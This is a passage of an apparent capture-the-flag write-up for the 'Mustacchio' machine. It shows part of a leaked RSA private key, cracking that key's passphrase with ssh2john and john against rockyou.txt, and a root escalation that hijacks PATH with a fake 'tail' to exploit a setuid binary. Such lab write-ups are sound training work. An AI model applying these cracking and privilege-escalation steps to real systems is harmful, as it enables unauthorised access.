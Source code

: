 ```console
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
</p><p>Author : Barry Clad</p><p>
Comment :<br> random<p/>    
```

- Cracked passphrase for id_rsa with john.
- First converted id_rsa to hash
```console
❯ ssh2john id_rsa > hash
```
Then cracked with rockyou.txt file
```console
❯ john -w=/usr/share/wordlists/rockyou.txt hash | tee john.log
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
urieljames       (id_rsa)
```
Logged in to SSH



## Exploitation
- Found user.txt in `/home/barry`
```console
barry@mustacchio:~$ cat user.txt
62d77a4d5f97d47c5aa38b3b2651b831
```
- Moved to home and found another user `joe`
- On moving to `joe`s home directory found a binary `live_log` with permissions to execute as root and readable by `barry`
```console
barry@mustacchio:/home/joe$ ls -l
total 20
-rwsr-xr-x 1 root root 16832 Jun 12  2021 live_log
```
- On reading strings in this binary found that this program is `trail` without full path to tail, so we can exploit this program by making a new shell file and adding it to PATH as `tail`.
```console
barry@mustacchio:/home/joe$ strings live_log 
/lib64/ld-linux-x86-64.so.2
libc.so.6
<--snip--->
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log <------- L00k HERE
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c
deregister_tm_clones
<---snip--->
.data
.bss
.comment
```
- Moved to /tmp directory because we will be adding permission to files
```console
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp/:$PATH
barry@mustacchio:/tmp$ /home/joe/live_log
root@mustacchio:/tmp#
```